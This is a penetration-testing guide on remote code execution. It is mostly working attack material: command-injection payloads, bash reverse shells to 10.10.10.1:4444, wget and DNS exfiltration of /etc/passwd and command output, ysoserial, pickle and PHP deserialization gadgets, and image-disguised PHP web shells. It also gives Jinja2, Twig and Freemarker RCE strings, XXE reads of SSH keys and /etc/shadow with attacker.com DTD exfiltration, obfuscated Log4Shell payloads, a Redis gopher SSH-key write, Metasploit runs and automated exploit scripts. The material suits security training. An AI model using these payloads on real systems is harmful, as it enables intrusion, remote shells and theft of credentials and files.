

# Remote Code Execution
> **Difficulty:** Beginner–Advanced | **Category:** Penetration Testing

---

## Table of Contents

1. [What Is RCE and Why It Matters](#what-is-rce-and-why-it-matters)
2. [OS Command Injection](#os-command-injection)
3. [Deserialization RCE](#deserialization-rce)
4. [File Upload RCE](#file-upload-rce)
5. [Server-Side Template Injection (SSTI)](#server-side-template-injection-ssti)
6. [XXE to RCE](#xxe-to-rce)
7. [Log4Shell — CVE-2021-44228](#log4shell--cve-2021-44228)
8. [SSRF → RCE](#ssrf--rce)
9. [RCE via Metasploit](#rce-via-metasploit)
10. [Manual Exploitation with curl and Python](#manual-exploitation-with-curl-and-python)

---

## What Is RCE and Why It Matters

**Remote Code Execution (RCE)** is a class of vulnerability that allows an attacker to execute arbitrary operating system commands or code on a target system from a remote location — without requiring physical access or prior authentication (in many cases).

RCE is consistently the highest-severity finding category in penetration testing and bug bounty programs. It is the **crown jewel** of web and network exploitation because it:

- Provides complete control over the affected server process
- Enables lateral movement into internal networks
- Allows data exfiltration, ransomware deployment, persistence installation
- Can cascade to full infrastructure compromise

> **Note:** Not all RCE results in OS-level access immediately. Sandboxed runtimes (Docker, PHP-FPM with restricted user) may limit what the executing process can do. Post-exploitation then focuses on container escape or privilege escalation.

### RCE Attack Surface Overview



---

## OS Command Injection

**OS Command Injection** occurs when user-controlled input is concatenated directly into a system command executed by the server. The injected metacharacters terminate the intended command and append attacker-supplied commands.

### Detection

```bash
# Inject into any parameter: URL param, form field, JSON key, HTTP header

# Direct output injection
; whoami
| id
`id`
$(id)
& whoami &
&& whoami
|| whoami

# URL-encoded versions
%3Bwhoami
%7Cid
%60id%60
%24%28id%29
```

### Blind Command Injection

When output is not returned in the response, use **time-based** or **out-of-band** detection:

```bash
# Time-based (Linux)
; sleep 5
&& ping -c 5 127.0.0.1

# Time-based (Windows)
& timeout /T 5
& ping -n 5 127.0.0.1

# Out-of-band — DNS/HTTP via Burp Collaborator
; nslookup BURP_COLLABORATOR_DOMAIN
; curl http://BURP_COLLABORATOR_DOMAIN/$(whoami)
; wget http://10.10.10.1/$(cat /etc/passwd | base64)
```

### Real CVE Example: CVE-2021-25296 (Nagios XI)

Nagios XI's `network_status.php` passed unsanitized `host` parameter to `ping`:

```http
POST /nagiosxi/includes/components/nagioscore/ui/graphs.php HTTP/1.1
host=127.0.0.1%3Bid%3E/tmp/out
```

### Exploitation Examples

```python
# Python requests — direct injection
import requests

target = "http://10.10.10.50/ping.php"
payload = {"ip": "127.0.0.1; cat /etc/passwd"}
r = requests.post(target, data=payload)
print(r.text)

# Reverse shell via command injection
import urllib.parse
cmd = "bash -c 'bash -i >& /dev/tcp/10.10.10.1/4444 0>&1'"
payload = {"ip": f"127.0.0.1; {cmd}"}
r = requests.post(target, data=payload)
```

### Injection Context Table

| Context | Separator | Example |
|---------|-----------|---------|
| Shell arg | `;` `&&` `\|\|` | `127.0.0.1; id` |
| Backtick subshell | `` ` `` | `` `id` `` |
| `$()` subshell | `$()` | `$(id)` |
| Newline | `%0a` | `127.0.0.1%0aid` |
| Windows `&` | `&` | `127.0.0.1 & dir` |
| Windows `\|` | `\|` | `127.0.0.1 \| ipconfig` |

> **Warning:** Always check for Windows vs Linux before injecting. Linux metacharacters (`;`, backticks) do not work on Windows and vice versa. Verify OS fingerprint during recon.

---

## Deserialization RCE

**Deserialization** converts stored/transmitted data back into an object. When the deserializer processes attacker-controlled data without validation, it can instantiate arbitrary objects and invoke dangerous methods.

### Java Deserialization — ysoserial

Java's `ObjectInputStream.readObject()` is the classic sink. Vulnerable frameworks include Apache Commons Collections, Spring, WebLogic, JBoss, Jenkins.

```bash
# Download ysoserial
wget https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar

# List available gadget chains
java -jar ysoserial-all.jar 2>&1 | head -30

# Generate payload for CommonsCollections6 (command execution)
java -jar ysoserial-all.jar CommonsCollections6 'id' > payload.ser

# Test with curl (deserialize via HTTP endpoint)
curl -X POST http://target.com/api/deserialize \
    -H "Content-Type: application/x-java-serialized-object" \
    --data-binary @payload.ser

# Reverse shell payload
java -jar ysoserial-all.jar CommonsCollections6 \
    'bash -c {bash,-i,>&,/dev/tcp/10.10.10.1/4444,0>&1}' > rev.ser
```

### PHP Unserialize

PHP's `unserialize()` triggers magic methods (`__wakeup`, `__destruct`, `__toString`) on instantiated objects:

```php
// VULNERABLE CODE
$data = unserialize($_COOKIE['user']);

// EXPLOIT: craft a malicious serialized object
class Logger {
    public $logfile = '/var/www/html/shell.php';
    public $data    = '<?php system($_GET["cmd"]); ?>';
    
    public function __destruct() {
        file_put_contents($this->logfile, $this->data);
    }
}

// Serialize the object:
$evil = new Logger();
echo urlencode(serialize($evil));
// a:1:{s:6:"logger";O:6:"Logger":2:{s:7:"logfile";s:28:"/var/www/html/shell.php";...}}
```

```bash
# Send as cookie
curl http://target.com/profile \
    -H 'Cookie: user=O%3A6%3A%22Logger%22%3A...'
```

### Python Pickle

Python's `pickle.loads()` executes arbitrary code during deserialization:

```python
import pickle, os

class Exploit(object):
    def __reduce__(self):
        return (os.system, ('id > /tmp/pwned',))

payload = pickle.dumps(Exploit())
print(payload)
# b'\x80\x04\x95...\n.'

# Send as base64 to target endpoint
import base64
print(base64.b64encode(payload).decode())
```

### .NET Deserialization

```powershell
# Generate .NET deserialization payload with ysoserial.net
ysoserial.exe -f BinaryFormatter -g TypeConfuseDelegate \
    -c "cmd /c whoami > C:\inetpub\wwwroot\out.txt"

# JSON.NET (Newtonsoft) deserialization via TypeNameHandling
# Vulnerable payload:
# {"$type": "System.Windows.Data.ObjectDataProvider, PresentationFramework..."}
```

---

## File Upload RCE

**File upload RCE** abuses unrestricted or poorly restricted file upload functionality to upload a web shell or executable that the server will process.

### Extension Filter Bypasses

```
# Common PHP alternatives when .php is blocked:
.php3   .php4   .php5   .php7
.phtml  .pht    .phps   .php%00.jpg  (null byte, older PHP)
.Php    .PHP    .pHp    (case sensitivity)
.php.jpg  (double extension — depends on server config)
```

```bash
# Test which extensions execute:
for ext in php php3 php4 php5 php7 phtml pht; do
    echo "Testing .$ext"
    curl -s -F "file=@shell.php;filename=shell.$ext" \
        http://target.com/upload | grep -i 'success\|error'
done
```

### Magic Bytes Bypass

Prepend valid image magic bytes to a PHP web shell:

```bash
# JPEG magic bytes + PHP shell
printf '\xff\xd8\xff\xe0' > shell.php.jpg
echo '<?php system($_GET["cmd"]); ?>' >> shell.php.jpg

# GIF magic bytes (for GIF upload)
echo 'GIF89a' > shell.gif.php
echo '<?php system($_GET["cmd"]); ?>' >> shell.gif.php

# PNG magic bytes
printf '\x89PNG\r\n\x1a\n' > shell.png
echo '<?php system($_GET["cmd"]); ?>' >> shell.png
```

### MIME Type Confusion

```http
POST /upload HTTP/1.1
Content-Type: multipart/form-data; boundary=----Boundary

------Boundary
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: image/jpeg          ← forge MIME type

<?php system($_GET['cmd']); ?>
------Boundary--
```

### Real Example — CVE-2022-26134 (Confluence RCE)

OGNL injection via URL path:

```bash
curl "http://target.com/%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28new+java.lang.String%5B%5D%7B%22id%22%7D%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D/"
```

> **Note:** After uploading a web shell, confirm execution path. The upload directory may not be web-accessible. Common paths: `/uploads/`, `/files/`, `/images/`, `/media/`, `/static/`. Check the HTTP response for the returned file URL.

---

## Server-Side Template Injection (SSTI)

**SSTI** occurs when user input is embedded directly into a template that is then rendered server-side. The template engine interprets the input as template syntax and executes it.

### Detection

```
# Polyglot detection string — triggers errors in multiple engines:
${{<%[%'"}}%\.

# Mathematical test — if output is 49, template execution confirmed:
{{7*7}}       → 49 (Jinja2, Twig, Smarty)
${7*7}        → 49 (Freemarker)
<%= 7*7 %>    → 49 (ERB/Ruby)
#{7*7}        → 49 (Pebble)
*{7*7}        → 49 (Thymeleaf)
```

### Jinja2 (Python / Flask)

```python
# Read config (may leak SECRET_KEY, DB_URI)
{{config}}
{{config.items()}}

# File read
{{''.__class__.__mro__[1].__subclasses__()}}
# Find index of <class 'subprocess.Popen'> in the list, then:
{{''.__class__.__mro__[1].__subclasses__()[<idx>](['cat','/etc/passwd'],stdout=-1).communicate()[0].decode()}}

# Simpler RCE via os.popen
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}

# lipsum global (cleaner)
{{lipsum.__globals__["os"].popen("id").read()}}

# Cycler exploit
{{cycler.__init__.__globals__.os.popen('id').read()}}
```

```bash
# Test via curl
curl -s "http://target.com/page" \
    --data-urlencode "name={{7*7}}"
# If response contains 49: SSTI confirmed

# RCE test
curl -s "http://target.com/page" \
    --data-urlencode "name={{lipsum.__globals__['os'].popen('id').read()}}"
```

### Twig (PHP)

```twig
{{7*7}}           → 49
{{dump(app)}}     → dump environment variables
{{_self.env.registerUndefinedFilterCallback("exec")}}
{{_self.env.getFilter("id")}}

# RCE
{{_self.env.registerUndefinedFilterCallback("system")}}
{{_self.env.getFilter("id")}}
```

### Freemarker (Java)

```freemarker
${7*7}
${freemarker.template.utility.Execute?new()("id")}
<#assign ex="freemarker.template.utility.Execute"?new()>
${ex("id")}
```

### SSTI Engine Identification Flowchart

```mermaid
flowchart TD
    A[Inject: ${{7*7}}] --> B{Output 49?}
    B -->|Yes ${7*7}| C[Freemarker / Smarty]
    B -->|Yes {{7*7}}| D[Jinja2 / Twig / Pebble]
    B -->|No| E[Try <%= 7*7 %>]
    E -->|49| F[ERB Ruby]
    D --> G{Inject: {{7*'7'}}?}
    G -->|49 output| H[Jinja2]
    G -->|49XXXXXXX| I[Twig]
```

---

## XXE to RCE

**XML External Entity (XXE)** processing allows an attacker to read files, probe internal services, or exfiltrate data. Chained with credential files, it can lead to RCE.

### Basic XXE File Read

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>
  <data>&xxe;</data>
</root>
```

### XXE to RCE Chain

**Step 1 — Read SSH private key:**

```xml
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///root/.ssh/id_rsa">]>
<root><data>&xxe;</data></root>
```

**Step 2 — Read application config for credentials:**

```xml
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///var/www/html/config.php">]>
```

```php
// Leaked config:
define('DB_USER', 'webapp');
define('DB_PASS', 'S3cr3tP@ss');
define('DB_HOST', '10.0.0.5');
```

**Step 3 — SSRF via XXE to hit internal services:**

```xml
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/">]>
```

**Step 4 — XXE via file PHP wrapper (base64 exfil):**

```xml
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/etc/shadow">
]>
```

> **Warning:** Error-based and blind XXE require out-of-band techniques. Host a malicious DTD on your server and reference it from the target's XXE to exfiltrate data via DNS/HTTP when the response doesn't reflect output.

```xml
<!-- Blind XXE — OOB via external DTD -->
<!DOCTYPE foo [
  <!ENTITY % ext SYSTEM "http://attacker.com/evil.dtd">
  %ext;
]>

<!-- evil.dtd content: -->
<!ENTITY % data SYSTEM "file:///etc/passwd">
<!ENTITY % send "<!ENTITY exfil SYSTEM 'http://attacker.com/?d=%data;'>">
%send;
```

---

## Log4Shell — CVE-2021-44228

**Log4Shell** is a critical RCE vulnerability (CVSS 10.0) in the **Apache Log4j 2** logging library affecting Java applications. When Log4j logs a user-controlled string, the JNDI lookup feature resolves the attacker-supplied URL and loads a remote Java class — executing arbitrary code.

### How It Works

Log4j 2 processes special syntax like `${jndi:ldap://attacker.com/a}` in any logged string. If user input flows into any `log.info()`, `log.error()`, etc., the JNDI lookup executes:

```
1. Log4j sees: ${jndi:ldap://attacker.com/exploit}
2. Log4j makes an LDAP request to attacker.com
3. LDAP server returns a Java class reference
4. JVM loads and executes the remote class
5. Attacker achieves RCE
```

### Injection Points

The payload can be injected into **any field that gets logged**: HTTP headers, User-Agent, URL parameters, form fields, JSON bodies, usernames.

```bash
# Common injection vectors
curl http://target.com/ -H 'User-Agent: ${jndi:ldap://attacker.com/a}'
curl "http://target.com/login" -d 'username=${jndi:ldap://attacker.com/a}&password=test'
curl "http://target.com/?search=${jndi:ldap://attacker.com/a}"
curl http://target.com/ -H 'X-Forwarded-For: ${jndi:ldap://attacker.com/a}'
curl http://target.com/ -H 'X-Api-Version: ${jndi:ldap://attacker.com/a}'
```

### Exploitation with JNDI Exploit Kit

```bash
# Clone exploit kit
git clone https://github.com/pimps/JNDI-Exploit-Kit

# Compile and run LDAP server
mvn package -q
java -jar JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar \
    -L 0.0.0.0:1389 \
    -P 8888 \
    -C "bash -c {bash,-i,>&,/dev/tcp/10.10.10.1/4444,0>&1}"

# Payload:
${jndi:ldap://10.10.10.1:1389/exploit}

# Obfuscated variants (to bypass WAF patching ${jndi:}):
${${lower:j}ndi:ldap://10.10.10.1:1389/a}
${${::-j}${::-n}${::-d}${::-i}:ldap://10.10.10.1:1389/a}
${j${::-n}di:ldap://10.10.10.1:1389/a}
${${env:NaN:-j}ndi:${env:NaN:-l}dap:${env:NaN:-/}/10.10.10.1:1389/a}
```

### Affected Versions

| Version | Status |
|---------|--------|
| Log4j 2.0-beta9 – 2.14.1 | **Vulnerable** |
| Log4j 2.15.0 | Partial fix (CVE-2021-45046 still vulnerable) |
| Log4j 2.16.0 | Fixed CVE-2021-45046 |
| Log4j 2.17.0 | Fixed CVE-2021-45105 (DoS) |
| Log4j 2.17.1+ | Fully patched |
| Log4j 1.x | Not vulnerable to Log4Shell (different vulns exist) |

> **Note:** Detection of Log4Shell exposure: even if no code is executed, a DNS callback to Burp Collaborator or interactsh confirms the JNDI lookup is being processed. This alone is sufficient evidence for a Critical finding.

```bash
# Safe detection only (DNS callback, no RCE payload):
curl http://target.com/ -H 'User-Agent: ${jndi:dns://BURP_COLLABORATOR_DOMAIN/a}'
```

---

## SSRF → RCE

**SSRF (Server-Side Request Forgery)** enables reaching internal services that may have unauthenticated APIs or known RCE vulnerabilities.

### SSRF → Redis RCE

Redis by default has no authentication and listens on `127.0.0.1:6379`. If accessible via SSRF:

```bash
# Interact via Gopher protocol SSRF
# Write an SSH key to /root/.ssh/authorized_keys:
gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2456%0D%0A%0A%0Assh-rsa+AAAAB3NzaC1yc2EAAAADAQABAAABgQC...%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2415%0D%0A/root/.ssh/%0D%0A...
```

### SSRF → Elasticsearch RCE

```bash
# Elasticsearch has script execution (older versions):
curl "http://127.0.0.1:9200/_search" -d '{
  "script_fields": {
    "cmd": {
      "script": "import java.io.*; new java.util.Scanner(Runtime.getRuntime().exec(\"id\").getInputStream()).useDelimiter(\"\\\\A\").next()"
    }
  }
}'
```

### SSRF → Internal Jenkins RCE

```bash
# Jenkins Groovy script console (no auth on internal):
curl -X POST http://127.0.0.1:8080/script \
    --data-urlencode 'script=def cmd = "id".execute(); println cmd.text'
```

---

## RCE via Metasploit

```bash
msfconsole -q

# Search for RCE modules
msf6 > search type:exploit platform:linux rank:excellent

# CVE-2021-44228 Log4Shell
msf6 > use exploit/multi/misc/log4shell_header_injection
msf6 > set RHOSTS 10.10.10.50
msf6 > set RPORT 8080
msf6 > set LHOST 10.10.10.1
msf6 > set LPORT 4444
msf6 > set payload java/meterpreter/reverse_tcp
msf6 > run

# Struts2 RCE (CVE-2017-5638)
msf6 > use exploit/multi/http/struts2_content_type_ognl
msf6 > set RHOSTS 10.10.10.50
msf6 > set TARGETURI /struts2-showcase/
msf6 > run

# Shellshock (CVE-2014-6271)
msf6 > use exploit/multi/http/apache_mod_cgi_bash_env_exec
msf6 > set RHOSTS 10.10.10.50
msf6 > set TARGETURI /cgi-bin/test.cgi
msf6 > run
```

---

## Manual Exploitation with curl and Python

### Testing Command Injection Manually

```bash
# Whitebox approach — inject directly
curl -s "http://target.com/api/ping" \
    -X POST \
    -H "Content-Type: application/json" \
    -d '{"host":"127.0.0.1; id"}'

# Blind — time-based confirmation
time curl -s "http://target.com/api/ping" \
    -X POST \
    -H "Content-Type: application/json" \
    -d '{"host":"127.0.0.1; sleep 5"}'
# If response takes ~5 seconds: confirmed blind injection
```

### Python Exploit Automation

```python
#!/usr/bin/env python3
"""
Generic command injection exploiter — blind via time-based and
output-via-DNS using interactsh.
"""
import requests
import time

TARGET = "http://10.10.10.50/api/ping"
COLLABORATOR = "xxxxx.oast.fun"  # interactsh or Burp Collaborator

def test_blind_injection(param, sep):
    """Time-based injection test."""
    payload = {param: f"127.0.0.1 {sep} sleep 5"}
    start = time.time()
    requests.post(TARGET, json=payload, timeout=15)
    elapsed = time.time() - start
    return elapsed > 4.5

def exfil_via_dns(param, sep, cmd):
    """Exfiltrate output via DNS."""
    payload = {param: f"127.0.0.1 {sep} nslookup $({cmd}).{COLLABORATOR}"}
    requests.post(TARGET, json=payload, timeout=10)

# Test separators
separators = [";", "&&", "||", "|", "\n", "`", "$("]
for sep in separators:
    if test_blind_injection("host", sep):
        print(f"[+] Injection confirmed with: {sep}")
        exfil_via_dns("host", sep, "whoami")
        break
```

### SSTI Automated Testing

```python
#!/usr/bin/env python3
import requests

TARGET = "http://10.10.10.50/render"
TESTS = {
    "Jinja2":     "{{7*7}}",
    "Twig":       "{{7*7}}",
    "Freemarker": "${7*7}",
    "ERB":        "<%= 7*7 %>",
    "Velocity":   "#set($x=7*7)${x}",
    "Pebble":     "{{7*7}}",
}
RCE = "{{lipsum.__globals__['os'].popen('id').read()}}"

for engine, payload in TESTS.items():
    r = requests.post(TARGET, data={"template": payload})
    if "49" in r.text:
        print(f"[+] {engine} SSTI confirmed!")
        # Try RCE
        r2 = requests.post(TARGET, data={"template": RCE})
        print(f"    RCE: {r2.text.strip()[:200]}")
        break
```
